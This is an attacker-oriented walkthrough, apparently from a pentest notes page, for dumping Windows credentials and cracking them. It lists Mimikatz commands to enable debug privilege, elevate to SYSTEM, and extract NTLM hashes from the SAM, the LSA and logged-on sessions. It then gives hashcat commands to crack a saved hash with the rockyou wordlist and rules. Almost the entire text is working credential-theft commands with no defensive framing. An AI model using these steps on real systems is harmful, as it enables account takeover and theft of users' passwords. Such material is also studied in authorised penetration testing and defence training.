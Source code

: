 ### **PREREQUISITES:**

- The attacker must have an account or a shell on the target server.
- The attacker requires administrative privileges.

### **EXTRACTING NTLM HASHES WITH MIMIKATZ**

1.  To check which users exist locally on the system, run:  
    `Get-LocalUser`
    
2.  Navigate to the Mimikatz directory and start Mimikatz with:  
    `.\mimikatz.exe`  
    
??? info "NOTE"

    Administrative privileges are required.

3.  Enable the debug privilege using:  
    `privilege::debug`
    
4.  Elevate privileges to SYSTEM using:  
    `token::elevate`
    
5.  Extract NTLM hashes from the SAM database:  
    `lsadump::sam`  
    `lsadump::lsa /patch`
    
6. Dump Credentials of All Logged-On Users:   
    `sekurlsa::logonpasswords`

??? info "NOTE"

    This command will dump hashes for all users logged on to the current workstation or server, including remote logins like Remote Desktop sessions.    

### **CRACKING NTLM HASHES WITH HASHCAT**

1. Save the NTLM hash to a file (e.g., `NTLM.hash`) using:  
    `echo "3ae8e5f0ffabb3a627672e1600f1ba10" > NTLM.hash`
    
2.  Identify the Correct Hashcat Mode for NTLM:    
    `hashcat --help | grep -i "ntlm"`  
    **NOTE:** The output should indicate mode `1000` for NTLM.
    
3.  Start the Cracking Process with Hashcat:   
    `hashcat -m 1000 NTLM.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force`
